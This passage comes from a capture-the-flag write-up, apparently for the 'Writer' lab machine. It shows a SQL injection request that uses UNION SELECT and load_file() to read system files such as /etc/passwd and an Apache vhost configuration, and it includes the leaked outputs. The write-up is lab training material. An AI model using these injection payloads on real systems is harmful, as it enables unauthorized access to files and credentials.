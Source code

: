 ```python
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
postfix:x:113:118::/var/spool/postfix:/usr/sbin/nologin
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
```


At this point I'm pretty stumped and unsure what to look for, so to simplify things I sent the SQL Injection to Burp Intruder and fired it up using a LFI-list. From the output we found `etc/apache2/sites-enabled/000-default.conf` which gave us additional clues.

__REQUEST 8:__
```bash
uname=admin%27 union all select 1,load_file('%2fetc%2fapache2%2fsites-enabled%2f000-default%2econf'),3,4,5,6;--&password=123
```

__RESPONSE 8:__
```php
# Virtual host configuration for writer.htb domain
&lt;VirtualHost *:80&gt;
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        &lt;Directory /var/www/writer.htb&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        Alias /static /var/www/writer.htb/writer/static
        &lt;Directory /var/www/writer.htb/writer/static/&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
&lt;/VirtualHost&gt;

# Virtual host configuration for dev.writer.htb subdomain
# Will enable configuration after completing backend development
# Listen 8080
#&lt;VirtualHost 127.0.0.1:8080&gt;
#	ServerName dev.writer.htb
#	ServerAdmin admin@writer.htb
#
# Collect static for the writer2_project/writer_web/templates
#	Alias /static /var/www/writer2_project/static
```
